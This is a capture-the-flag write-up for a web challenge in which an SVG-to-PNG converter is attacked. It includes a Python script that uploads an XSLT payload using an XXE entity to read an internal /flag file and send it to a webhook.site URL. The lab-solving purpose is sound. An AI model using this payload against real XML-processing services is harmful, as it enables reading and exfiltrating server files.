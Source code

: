 
## Convert SVG to PNG
![image](https://github.com/user-attachments/assets/a1d87668-8ee3-4491-b38f-181df52a2f7e)

Category: Web  

## Challenge
Website allows us to upload SVG and convert to PNG.

Found two versions of convertSVG function:
- convertSvgV1 → Vulnerable to XSS and file read (but impossible to trigger)  
- convertSvgV2 → No XSS possible because of `page.setJavaScriptEnabled(false)`

Discovered that the uploaded file is served using `res.end()` without Content-Type header.

This allows us to upload XSLT XML and perform XXE to read internal `/flag`.

Reference:  
https://blog.ankursundara.com/dicectf23-writeups/#impossible-xss  
https://github.com/neocotic/convert-svg/issues/88  

## Solution
Used XSLT payload to read `/flag` and send to webhook.

Payload:
```
import requests
import base64
from urllib.parse import urlencode

# Define the XSLT payload
xmls = """<?xml version="1.0"?>
<!DOCTYPE a [
 <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://webhook.site/9e?f=&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>"""

# Encode the XSLT as base64
xmls_base64 = base64.b64encode(xmls.encode()).decode()

# Define the main XML payload
xml = f"""<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,{xmls_base64}"?>
<asdf></asdf>"""

base64_encoded_xml = base64.b64encode(xml.encode()).decode()

# URL encode the XML payload
encoded_xml = urlencode({'svg': base64_encoded_xml, 'test': '0'})



# Define the target URL
url = "http://localhost:8000/convert"

# Define the headers
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Send the POST request
response = requests.post(url, headers=headers, data=encoded_xml)

# Print the response for debugging
print(f"Status Code: {response.status_code}")
print(f"Response: {response.text}")
```
Sent to `/convert` endpoint.

Triggered bot to visit uploaded XML file.

Got flag in webhook.

![image](https://github.com/user-attachments/assets/de21b3ee-8fad-44ad-a694-a0de3a58f8a7)

```
HTB{XS1_1n_F1l3_4nd_R3nd3r_1s_N0_J0k3}
```
